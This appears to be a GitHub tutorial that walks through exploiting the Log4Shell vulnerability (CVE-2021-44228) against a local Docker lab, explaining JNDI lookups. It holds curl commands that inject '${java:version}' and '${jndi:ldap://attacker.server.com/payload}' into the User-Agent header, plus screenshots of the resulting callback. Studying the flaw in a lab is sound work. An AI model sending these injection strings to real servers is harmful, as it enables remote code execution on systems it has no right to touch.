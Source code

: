 # Log4J / CVE-2021-44228
    Versions: All versions from 2.0-beta9 to 2.16


CVE-2021-44228 or Log4Shell is a vulnerability found in the Java library with the maximum criticality score of CVSS 10/10. The library named Log4j got this rating because besides being very popular, it grants access to Remote Code Execution (RCE).

It is still used by many companies of all types and sizes and even after months of its discovery being made public, a lot of hosts still haven't updated their software. Here in this article, I present a way to run the exploit so that you can understand the vulnerability and prevent it from being exploited on your system and also explain a little about your application.

Your first targets are usually data entry points like username and password logins, http headers like User-Agent, X-Forwarded-For and others. Basically anywhere the user can provide data.

To perform this exploit, I used a vulnerable and easy-to-apply LAB with Log4J available in this [GIT](https://github.com/leonjza/log4jpwn).

![docker](https://user-images.githubusercontent.com/66689576/160430502-abc2c99e-7a65-48d5-913d-f165442ef757.png)

With docker running on port 8080, we can start to identify if the server is vulnerable to log4shell or not.
It may be interesting to check the version of Log4J, if there is a log where you can insert some information that the application does not consider as a string, as well as an endpoint with some protocol such as HTTP for example, which may allow sending a malicious string.

At first, I will use **curl** to send a request to the server, requesting the java version from the User-Agent.

    curl -v -H 'User-Agent: ${java:version}' '172.17.0.1:8080/'

Making the server run it: 

![ua](https://user-images.githubusercontent.com/66689576/160430578-9caa5e17-129b-4bc3-a7fd-1e574ac4fc2e.png)

## Execution

Now we can get a little better look at what's to come. If in our request, we use the **JNDI** (Java Naming and Directory Interface) protocol, it becomes possible to execute some malicious payload inside the server, thus triggering the log4j vulnerability, which, after execution, makes the server returns us a Java classpath, which was injected earlier.

This injected payload when triggered, gives the attacker access to execute arbitrary code. 

	curl -v -H 'User-Agent: ${jndi:ldap://attacker.server.com/payload}' '172.17.0.1:8080/'
	
JNDI is an independent API that gives access to directory services, bringing objects or data to the client side through information (name). Its two basic functions are to associate a name with a resource and to find a resource by its name. 

When we make a request to the User-Agent, sending what would be the payload, through Curl to the server, we are acting within the network itself, being safer to detect the vulnerability.

![curlTrue](https://user-images.githubusercontent.com/66689576/162072699-82285f21-70d6-4668-b94c-96a1ab4eb771.png)

Here we can see that a connection was established with my machine, when the server (docker) executed the payload I sent to it, thus releasing the opportunity for an RCE.

![nc22222](https://user-images.githubusercontent.com/66689576/162073080-26e07482-377c-43d7-afd7-b8009d32631e.png)

Server-side view running the payload:

![logLog](https://user-images.githubusercontent.com/66689576/162073340-6db1bf73-975d-47b7-97d7-011c7c7c76c8.png)

## Conclusion

Between these versions it is possible to execute a script/payload on the server where the application is, opening the possibility of creating an RCE connection through any field that we can insert data, http headers...

That's it :)
